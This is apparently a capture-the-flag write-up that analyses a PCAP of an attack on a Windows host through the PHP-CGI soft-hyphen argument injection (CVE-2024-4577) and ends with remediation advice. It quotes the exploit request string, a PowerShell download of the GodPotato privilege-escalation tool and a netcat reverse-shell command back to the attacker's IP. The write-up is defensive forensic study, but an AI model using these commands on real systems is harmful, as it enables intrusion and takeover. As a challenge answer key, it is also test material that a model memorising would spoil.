PacketPuzzle

You are a junior security analyst at a small Japanese cryptocurrency trading company.
After detecting suspicious activity on the internal network, you exported a PCAP for further investigation.
Analyze this capture to determine whether the environment was compromised and reconstruct the attacker’s actions.
Task 1
What is the source IP address of the attacker involved in this Attack?
The challenge archive contains a single PCAP file. For starters, I will filter for HTTP traffic as it is a low-hanging fruit, with easily readable data.

The IP address of 192.168.170.128 sends 7 POST requests to the victim, using a certain exploit related to PHP in order to achieve RCE.

Task 2
How many open ports did the attacker discover on the victim's system?
Filtering the packets by ip.src equal to the attacker's IP address reveals an interesting sequence of events.

The attacker sends TCP packets with the SYN flag to a massive number of ports, responding to particular ones with an RST packet. This is a SYN scan, and the ports that received back the RST packets were recognized as active.
Instead of completing the usual 3-way handshake, a SYN scan only requires a SYN/ACK response to determine that the port is open. Thus, an RST packet is sent after receiving a positive response, effectively ending the conversation. More details can be found in the nmap docs.
https://nmap.org/book/synscan.html
Counting up all of the active ports, there are:
22
443
445
3389
139
80
135
5357
8 open ports in total.

Task 3
What is the first open port that responded on the victim's system during reconnaissance?
The first open port found during the SYN scan is 22, as seen in the first screenshot from Question 2.

Task 4
What is the CVE identifier for the vulnerability exploited by the attacker?
This line POST /?%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input from the POST request is very reminiscent of CVE-2012-1823, which is an argument injection flaw in php-cgi. An attacker can flip PHP options using the -d flag.
In this case, a newer, yet very similar CVE is used. The only difference between this and CVE-2024-4577 is that the newer one uses a soft hyphen (%AD in URL encoding) in the URL. This trick works on Windows, where the soft hyphen changes to - after being passed to php-cgi.exe, allowing for the same argument injection exploit.
Ultimately, this flaw allows an attacker to execute arbitrary commands on the system after flipping these two PHP attributes.

Task 5
What is the name and version of the vulnerable product exploited to get RCE?
I'll start looking through the POST request, starting from the earliest one.

The first command executed by the attacker was whoami. The response reveals that the PHP version is 8.1.25, which fits into the vulnerable range of the more recent CVE.

Task 6
What is the username of the victim account?
As seen in the screenshot within Question 5, the discovered user's name is cristo

Task 7
At what timestamp did the attacker execute the command to gain their initial foothold on the victim system?
The initial whoami command was followed by a few recon commands like dir, whoami /all, ultimately culminating with a reverse shell command.

This event occurred at 2025-01-22T09:47:32.295911000Z, marking the moment when the attacker gained their foothold on the system.

Task 8
What is the MITRE ATT&CK technique ID used by the attacker to gain an initial foothold?
Using everything I've learned so far, I can confidently say that the MITRE ATT&CK technique ID used is T1190 - Exploit Public-Facing Application. The attacker exploited the argument injection flaw by reaching a public-facing component with a POST request.
https://attack.mitre.org/techniques/T1190/

Task 9
What is the name of the malicious executable the attacker downloaded and executed in memory to facilitate privilege escalation on the endpoint?
After the foothold was attained, I switched the Wireshark filter to see all packets coming towards the attacker.

Right after the initial exploit responses, I can see a TCP packet containing something that looks like a fragment of a dir command output.

Following this packet reveals the stream of actions taken by the attacker, starting with directory enumeration, reading the Apache license(this might have been an attempt at hiding their tracks).

After their enumeration, the attacker downloaded netcat from their server and saved it as time.exe.
This was followed by the attacker grabbing a different tool with iwr -uri "https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe" -Outfile TimeProvider.exe, aiming to exploit the SeImpersonate privilege for privilege escalation.

Task 10
What is the command line used by the attacker while performing privilege escalation?

The attacker tried to elevate their privileges, but the command errored out. The commadn they used was ./TimeProvider.exe -cmd "time.exe 192.168.170.128 5555 -e cmd"

Task 11
The attacker failed to escalate privileges and was given an error. What is the error?
The Cannot create process Win32Error:2 error arises from the CreateProcess function, and it means the system cannot find the specified file, usually due to a missing executable, incorrect file path, or broken dependencies. In this case, it is most likely that netcat(disguised as time.exe) itself was detected and removed by real-time protection.
I think that is what happened, mainly because the attacker ran the GodPotato command twice, with the exploit working perfectly(found SYSTEM token and attained the SYSTEM user). If it were GodPotato that was removed, the second command would not show any output related to GP, aside from a generic Windows error.

Solved!
Remediation & Strategic Recommendations
To prevent similar compromises in the future, the following actions are recommended, following the Defense in Depth strategy:
- Immediate Fix: Patching the RCE (CVE-2024-4577)
The primary entry point was an argument injection vulnerability in php-cgi.exe.
-
Update PHP: Upgrade the PHP runtime to the latest patched version (8.1.29+, 8.2.20+, or 8.3.8+). This is the only definitive fix for the soft-hyphen (%AD) injection flaw.
-
Disable Legacy CGI: If business requirements allow, migrate from php-cgi.exe to a more modern and secure architecture like PHP-FPM or a native Apache/IIS module.
-
WAF Implementation: Deploy a Web Application Firewall (WAF) rule to filter and block suspicious URL-encoded characters (like %AD) and PHP configuration flags (-d, allow_url_include) in incoming GET/POST requests.
-
Privilege Hardening: Blocking Escalation (Defense in Depth)
While the attacker attained SYSTEM tokens, they were hindered by the removal of their payload. To prevent any future "Potato-style" exploits from succeeding:
-
Remove SeImpersonatePrivilege: The account running the web server should not hold this privilege. Removing it disables the ability for an attacker to steal and spoof SYSTEM tokens, even if they achieve RCE.
-
Dedicated Service Account: Move the PHP execution environment to a dedicated low-privileged local user with strictly defined filesystem permissions.
-
Detection & Monitoring Improvements
-
Enhance Endpoint Logging: If not enabled already, enable PowerShell Script Block Logging (Event ID 4104). This would allow the SOC to see de-obfuscated scripts executed directly in memory, which often follow a successful privilege escalation.
-
Sysmon Integration: Monitor for suspicious Parent-Child process relationships, specifically php-cgi.exe spawning shells (cmd.exe, powershell.exe) or network-active binaries (nc.exe, time.exe).
-
EDR Tuning: Configure the EDR to alert on any process attempting to interact with the RPCSS service or creating named pipes with patterns used by known exploits (e.g., \pipe\epmapper).
The attacker successfully exploited a critical PHP vulnerability to gain a foothold but failed to establish a persistent reverse shell due to Windows Defender's real-time protection intercepting the secondary payload. Implementing the above recommendations will close the initial attack vector and neuter the ability for future attackers to elevate their privileges to SYSTEM.